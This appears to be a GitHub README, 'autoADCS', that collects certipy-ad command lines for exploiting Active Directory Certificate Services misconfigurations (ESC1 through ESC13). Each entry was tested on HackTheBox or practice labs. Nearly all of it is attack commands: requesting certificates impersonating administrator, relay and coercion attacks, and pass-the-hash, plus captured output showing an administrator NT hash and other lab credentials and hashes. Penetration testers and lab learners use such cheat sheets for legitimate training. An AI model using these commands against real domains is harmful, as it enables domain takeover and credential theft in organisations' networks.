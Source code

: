 # autoADCS

### ESC1
Tested on https://app.hackthebox.com/machines/531
```
certipy-ad req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
```
OR OR OR 
```
certipy-ad req -username ryan.cooper -password NuclearMosquito3 -ca sequel-DC-CA -target sequel.htb -template UserAuthentication -upn administrator@sequel.htb    
```
#### faketime
```
➜  escape ntpdate -q sequel.htb
2024-12-24 15:38:16.851156 (-0500) +28800.109132 +/- 0.083870 sequel.htb 10.10.11.202 s1 no-leap
```
```
➜  escape faketime '2024-12-24 15:38:34' certipy-ad auth -pfx administrator.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```
### ESC4
Tested on https://github.com/Orange-Cyberdefense/GOAD
```
certipy-ad template -username khal.drogo@essos.local -password horse -template ESC4 -save-old

certipy-ad req -username khal.drogo@essos.local -password horse -ca ESSOS-CA -target essos.local -template ESC4 -upn administrator@essos.local
```
### ESC6
Tested on https://github.com/Orange-Cyberdefense/GOAD
```
certipy-ad req -username administrator@essos.local -password horse -ca ESSOS-CA -target essos.local -template User -upn administrator@essos.local
```
### ESC7
Tested on https://app.hackthebox.com/machines/572
```
certipy-ad ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'pass'

certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'pass'

certipy-ad req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'pass'

certipy-ad ca -ca manager-DC01-CA -issue-request 21 -username raven@manager.htb -p 'pass'

certipy-ad req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 21 -username raven@manager.htb -p 'pass'
```
#### faketime
```
ntpdate -q 10.10.11.236

faketime '2024-12-19 08:12:01' certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```
### ESC8
Tested on Ifrit-VulnLab
```
certipy-ad relay -target 'http://172.16.41.17/'

coercer coerce -u SQL07$@it-ifrit.vl --hashes :3565f3f4123cfbd6fb880a0978fffc81 -l 10.8.0.158 -t 172.16.41.210 --always-continue

certipy-ad auth -pfx FS02.pfx
```
### ESC9
Tested on https://app.hackthebox.com/machines/Certified
```
certipy-ad req -username ca_operator@certified.htb -p 'Password123@' -ca certified-DC01-CA -template CertifiedAuthentication

certipy-ad account update -username ca_operator@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn administrator@certified.htb

certipy-ad auth -pfx administrator.pfx -domain certified.htb
```
### ESC11
```
certipy-ad relay -target http://10.10.10.10 -ca SubCA
```
### ESC13
Tested on https://app.hackthebox.com/machines/595
```
certipy-ad req -u svc_cabackup -hashes :c9872f1bc10bdd522c12fc2ac9041b64 -ca mist-DC01-CA -template ManagerAuthentication -dc-ip 192.168.100.100 -dns 192.168.100.100 -key-size 4096

python3 gettgtpkinit.py -cert-pfx pfx_file /svc_cabackup ccache_file -dc-ip 192.168.100.100 -
```
